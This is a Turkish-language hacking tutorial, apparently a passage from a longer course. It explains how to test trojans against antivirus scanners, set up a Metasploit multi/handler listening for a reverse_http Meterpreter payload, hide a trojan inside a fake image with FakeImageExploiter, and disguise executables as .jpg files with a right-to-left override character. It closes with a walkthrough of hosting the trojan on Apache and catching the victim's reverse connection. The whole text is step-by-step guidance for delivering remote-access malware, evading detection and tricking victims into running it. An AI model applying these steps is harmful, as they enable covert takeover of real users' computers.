Oluşturduğumuz Trojanların anti-virüs programları tarafından yakalanıp yakalanmadığını test edebilmek için [Jotti](https://virusscan.jotti.org/) vb. platformları kullanabiliriz


Oluşturduğumuz Trojanlar'ın **option** seçeneklerini değiştirmek yakalanma şansımızı azaltacaktır



### Multi Handler Oluşturmak
Trojanımızı oluşturduk. Bir kullanıcıyı kandırdık ve bir şekilde trojanımızı kullanıcıya açtırdık. Bu aşamada açılan bağlantıyı kendi bilgisayarımızda dinlememiz gerek. Bunun için de `msfconsole` kullanacağız <br><br>
Terminale `msfconsole` yazarak programı açabiliriz
<br><br>
`use exploit/multi/handler` komutu ile gelen bağlantıları dinlememizi sağlayacak olan exploiti çalıştırabiliriz<br><br>
`set PAYLOAD windows/meterpreter/reverse_http` komutu ile **reverse_http** için oluşturduğumuz trojanı dinlemeye başlayabiliriz. <br><br>
`show options` ile ilgili konfigürasyonları görebiliriz. 



Trojanımızı oluştururken set ettiğimiz `LHOST` ve `LPORT` 'u burada da set ediyoruz. `set LHOST <LHOST_IP>`
```
set LHOST 192.168.1.87
```
Ardından `exploit` diyerek exploiti çalıştırabiliriz. İlgili LHOST'da bir session (oturum/bağlantı isteği) oluşturulursa dinlemeye başlayacaktır.



# Sosyal Mühendislik
## Görseller ile Dosyayı Birleştirmek
Hedefimize trojaınımızı açtırabilmek için onu zararsız bir dosya açtığına ikna etmek işimizi garantiye almak adına önemli olabilir. Bu aşamada oluşturduğumuz Trojan ile Fake bir image birleştireceğiz. Bu sayede hedefimiz resmi açtığında arkada trojanımız çalışacak. Bunun için [Fake Image Exploiter](https://github.com/r00t-3xp10it/FakeImageExploiter) kullanacağız.
- Öncelikle [Fake Image Exploiter](https://github.com/r00t-3xp10it/FakeImageExploiter.git)'ı `git clone` komutu kullanarak bilgisayarımıza indiriyoruz



- `cd FakeImageExploiter` komutu ile proje dizinine geçiş yapıyoruz.
- `nano settings` diyerek **settings** dosyasını açıyoruz. Eğer yapmamız gereken konfigürasyon varsa burada yapıyoruz.
  - **PICTURE_EXTENSION** yazan kısımda kullanacağımız resmin uzantısını belirliyoruz
  - **PAYLOAD_EXTENSION** yazan kısımda **tojanımızın uzantısını** belirliyoruz
  - **APACHE_WEBROOT** kısmında kali makinamızdaki web sunucu kök dizinini belirliyoruz

- `./FakeImageExploiter.sh` komutunu çalıştırarak executable dosyayı açıyoruz
- Program çalıştıktan sonra yönergeler doğrultusunda Trojan ile Görseli birleştiriyoruz

## Uzantıları Değiştirmek
Aslında uzantıları değil, dosya isimlerinin görünümlerini değiştireceğiz. Bu işlem için de **characters** adlı programı kullanacağız. <br><br>
Makinamızda yüklü değilse `apt-get install gnome-characters` komutu ile programı makinamıza yüklüyoruz <br>
Artık programlar altından **Characters** isimli programımızı çalıştırabiliriz



Arama kısmında `right-to-left` yazıyoruz ve `right-to-left Override` olan metodu seçiyoruz.



Bizim için şu işlemi yapacaktır; <br>
Uzantısı `.jpg.exe` olan uzantıyı `.exe.gpj` olarak değiştirecektir. Bu sebeple `.jpg.exe` olan uzantımızı öncelikle biz elimizle `.gpj.exe` olarak değiştiriyoruz sonrasında bu araç yardımıyla uzantıyı tersten yazdırıyoruz. Çıkan sonuç `.exe.jpg` olacaktır <br> 
Tersten yazdırmak istediğimiz string'in başladığı yere imleci getirip **yapıştır** işlemi (ctrl + v) yapıyoruz ve characters programı bizim için stringi tersten yazıyor



- Ben [Veil](#veil) kullanarak kendime bir trojan oluşturdum ve LHOST'u da kendi makinemin IP adresi olarak set ettim
- Ardından oluşturduğum trojanı `/var/www/html` altına taşıdım. `systemctl start apache2` diyerek **apache2** servisimi başlattım
```
# systemctl start apache2
# ls
>>> my_test_trojan.exe
```

Dilersek kali makinemizin IP adresi altından **apache** sunucumuz altındaki dosyaları listeleyebilir ve değişen dosya adımızı görebiliriz



[msfconsole](#multi-handler-oluşturmak) kullanarak bir **multi handler** oluşturuyorum ve windows makinamda, Kali IP'mi yazarak Kali'nin web sunucusuna bağlanıp ilgili trojanı indiriyorum



Windows makinemde trojan'ı çalıştırıyorum



Ve başarılı bir şekilde Kali makinemde bağlantıyı yakalıyorum



